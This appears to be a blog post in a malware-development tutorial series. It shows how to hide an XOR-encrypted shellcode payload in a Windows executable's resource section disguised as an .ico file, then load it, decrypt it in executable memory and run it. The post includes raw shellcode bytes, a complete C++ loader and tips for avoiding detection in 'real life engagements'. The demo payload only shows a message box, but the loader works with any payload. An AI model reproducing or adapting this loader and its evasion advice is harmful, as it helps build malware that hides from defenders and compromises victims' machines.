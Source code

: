 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x3: Embedding encrypted payloads in resource section"
classes: wide
header:
  teaser:  /assets/images/itc.png
ribbon: black
description: "Article 3 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Shellcode
  - Execution
  - XOR
  - Encryption
  - WinAPI
  - C++
toc: true
---
```

# Payload placement: .rsrc section

This is a popular way of placement used widely among malware authors,
The resource section of the executable is a section that is meant to store non-executable files, icon files, bitmaps and so on.

Malware authors tend to use it to store their payload but mostly in an encrypted form, that provides a level of obscurity, Also most malware families nowadays has many versions or releases, and having a payload in resource section makes it easy for a malware author to modify the functionality of the payload, he will simply need to just change the resources content, and not the code itself.

For this article we'll work with a **MessageBox** payload we have been using earlier, but this time let's append a simple layer of obfuscation, take this payload, XOR it with the value: "**XYZ**" and save the file as a `.ico`.

```cpp
unsigned char buf[] = 
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
"\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
"\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
"\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
"\x61\x67\x65\x42\x6f\x78\x00";
```

# Adding a resource to our project

Click on  **Resources File** -> **Add** -> **Netw Item**
![P1](/assets/images/malware-development/3-0.png)

Choose **Resource File** and once you get a column on the right hand side right clikc on Resource.rc and add the resource -> import your .ico and specify its type as `RCDATA`.

![P2](/assets/images/malware-development/3-1.png)
![P3](/assets/images/malware-development/3-2.png)

After we have added our encrypted .ico file we need to be able to retrieve its contents in order to decrypt it and finally execute it.

# Retrieving payload contents

Our process will be as follows:

- **FindResourceW** API call: locate the resource using its ID and type.
- **LoadResource** API call: Load the contents of our resource file to memory.
- **LockResource** API call: obtain a pointer to the data.
- Allocate memory out of .rsrc section and copy our data.
- Begin execution.

## Locating resource

```cpp
HRSRC hRsrc = FindResourceW(NULL,MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
```
"HRSRC" type stands for "Handle to a Resource." It represents a handle to a resource that is loaded, and The `MAKEINTRESOURCE` macro is a utility macro for converting an integer value into a resource identifier at this case we passed `IDR_RCDATA1` which is teh ID of our resource, we can find the ID in the `resource.h` file (**Do not forget to include it**).
![P4](/assets/images/malware-development/3-4.png)

The last parameter is just the type of the resource and we specified that earlier when we first imported our resource.

## Loading resource contents

We use this code and pass the handle we got above:
```cpp
HGLOBAL hGRsrc = LoadResource(NULL, hRsrc);
```
## Obtain a pointer

```cpp
PVOID RsrcAd = LockResource(hGRsrc);
```
The variable **RsrcAd** will point to our data, but it will still be a pointer inside .rsrc section, to do any operations on the data such as writing, decrypting, executing, etc. We better allocate a memory region and copy our data to that region.

For this we can simply use **VirtualAlloc()** or any other memory allocation API.

## Decrypting the payload

Before allocating memory we need to calculate the size of our resource:

```cpp
DWORD dwSize = SizeofResource(NULL, hRsrc);
```
Then using **VirtualAlloc()**.
```cpp
PVOID pAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

> Again: passing **PAGE_EXECUTE_READWRITE** is a big red flag, this is usually not the best way to do memory allocation, instead in real life engagements we better use **PAGE_READWRITE** then changing the memory protection using **VitualProtect()**.

Then copy the data to that region:

```cpp
memcpy(pAddress, RsrcAd, dwSize);
```
We need to implement a function that will take the encrypted data, the key and decrypt our payload:

```cpp
VOID XOR(IN PBYTE pBytes, IN DWORD dwSize, IN char* pKey) {

  for (int i=0;i < dwSize;i++) {
    pBytes[i] = pBytes[i] ^ pKey[i % 3];
  }
}
```
Pass the address and key to decrypt:
```cpp
char key[] = "XYZ"; 
XOR((PBYTE)pAddress, dwSize, key);
```

# Execution

After we have prepare everything let's do a quick test to see the payload before and after decryption, make sure it is decrypted successfully.

toggle a breakpoint before and after the XOR operation and check the payload in memory:
Before:
![P5](/assets/images/malware-development/3-5.png)
After:
![P6](/assets/images/malware-development/3-6.png)

Now as we see, we have successfully decrypted our payload, and already it's in an executable region of memory, we can simply execute it now with **CreateThread()** API call.
```cpp
if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CeateThread Failed with Error %x", GetLastError());
    return -1;
  };
```
And always remember to trace the execution using a debugger to confirm everything is working properly :) .
![P6](/assets/images/malware-development/3-7.png)
Final Code:

```cpp
#include <Windows.h>
#include "resource.h"
#include <stdio.h>

VOID XOR(IN PBYTE pBytes, IN DWORD dwSize, IN char* pKey) {

  for (int i=0;i < dwSize;i++) {
    pBytes[i] = pBytes[i] ^ pKey[i % 3];
  }
}

int main()
{
  HRSRC hRsrc = FindResourceW(NULL, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);

  if (hRsrc == NULL) {
    printf("FindResouceW failed with error: %x", GetLastError());
    return -1;
  }

  HGLOBAL hGRsrc = LoadResource(NULL, hRsrc);

  if (hGRsrc == NULL) {
    printf("LoadResource failed with error: %x", GetLastError());
    return -1;
  }

  PVOID RsrcAd = LockResource(hGRsrc);

  if (RsrcAd == NULL) {
    printf("failed loading resource, error: %x", GetLastError());
    return -1;
  }

  DWORD dwSize = SizeofResource(NULL, hRsrc);

  if (dwSize == NULL) {

    printf("SizeofResource failed with error: %x", GetLastError());
    return -1;
  }

  PVOID pAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  memcpy(pAddress, RsrcAd, dwSize);

  char key[] = "XYZ";
  
  XOR((PBYTE)pAddress, dwSize, key);
  
  if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CeateThread Failed with Error %x", GetLastError());
    return -1;
  };

  return 1;
}
```
